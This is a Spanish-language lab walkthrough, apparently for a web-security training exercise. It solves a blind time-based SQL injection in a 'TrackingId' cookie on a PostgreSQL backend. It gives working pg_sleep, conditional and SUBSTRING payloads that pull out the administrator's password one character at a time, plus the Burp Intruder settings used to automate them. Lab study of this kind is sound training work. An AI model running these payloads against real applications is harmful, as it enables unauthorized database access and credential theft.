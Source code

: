 ## Objetivo:

![[Pasted image 20240626225333.png]]

## Solución:

Entramos a cualquier parte de la aplicacion y enviamos la petición al repeater y nos centraremos en la cookie de "TrackingId" y ahí haremos las inyecciones.

Suponiendo que la query interna esta hecha de esta manera intentaremos hacer algunas inyecciones...

```
SELECT * FROM tracking WHERE trackingId = 'kW0sOVsgz3KPbI8H';
```

Intentaremos con esta y veremos a ver si se tarda los 5 segundos en responder el servidor y caso de que así sea pues ya vemos que es vulnerable a Inyeccion a Ciegas

```
kW0sOVsgz3KPbI8H'%3b SELECT pg_sleep(5) -- -
```

Ahora intentaremos con alguna query condicional

```
kW0sOVsgz3KPbI8H'; SELECT CASE WHEN (1=1) THEN pg_sleep(4) ELSE NULL END -- -

kW0sOVsgz3KPbI8H'; SELECT CASE WHEN (1=1) THEN pg_sleep(4) ELSE NULL END -- -
```

Y notaremos dependiendo de una de estas 2 querys anteriores que le enviemos se tardara 4 segundos o respondera inmediatamente el servidor...

Ya con esto podriamos crear una query definitiva siempre usando la tecnica del SUBSTRING. Para probarla podriamos usar esta inyeccion

```
kW0sOVsgz3KPbI8H'%3b SELECT CASE WHEN ((SUBSTRING('hola', 1, 1))='h') THEN pg_sleep(4) ELSE NULL END -- -
```

Ahora bien, toca adivinar la contraseña de una vez por todas...

```
kW0sOVsgz3KPbI8H'%3b SELECT CASE WHEN ((SUBSTRING((SELECT password FROM users WHERE username = 'administrator'), 1, 1))='h') THEN pg_sleep(4) ELSE NULL END -- -
```

Enviaremos la peticion con esta query al Intruder, configuramos las variables y seleccionamos ataque de tipo Cluster Bomb

![[Pasted image 20240626231710.png]]

Configuramos los 2 Payloads y desmarcamos url encoded

![[Pasted image 20240626232149.png]]

![[Pasted image 20240626232209.png]]

Y comenzamos el ataque, y hay que estar muy pendiente de cada Request que se envia y en cual de ellas se queda pegada por aproximadamente 4 segundos o los que le pusiste, y ahi pues ya tenes "un caracter" de la contraseña del usuario...

Igual para concentrarte mejor en los timings podes hacer esta configuracion en el intruder

![[Pasted image 20240626232342.png]]

Y así tenes una peticion nada mas a la vez y es una por segundo...

O si no te queres calentar la cabeza te podes guiar de la columna Response Completed del Burp y filtralo por los numeros mas altos y si pusiste por ejemplo un Sleep de 8 segundos, lo mas problable es que tengas varios 8000 o mayores a eso y basandote en eso ya podes intuir que esos payloads son los caracteres de la contraseña, y claro tambien fijate en el orden del Payloads #1, porque si notás hay por ejemplo hay dos que dicen "3, 1", entonces luego al encontrarte con casos así solo fijate en el Response Completed y el que más tardó en responder es el indicado...

(En este caso yo entre a Burp Profesional y cambie la query a un sleep de 8 para hacer mas notorio el Response Completed, metele numeros arriba de 7 en el Sleep si podes...)

![[Pasted image 20240626233600.png]]

Siguiendo esto la contraseña quedaría como ***eynyayyrvgpqbnbtitn8***
Luego iniciamos sesión

![[Pasted image 20240626233930.png]]

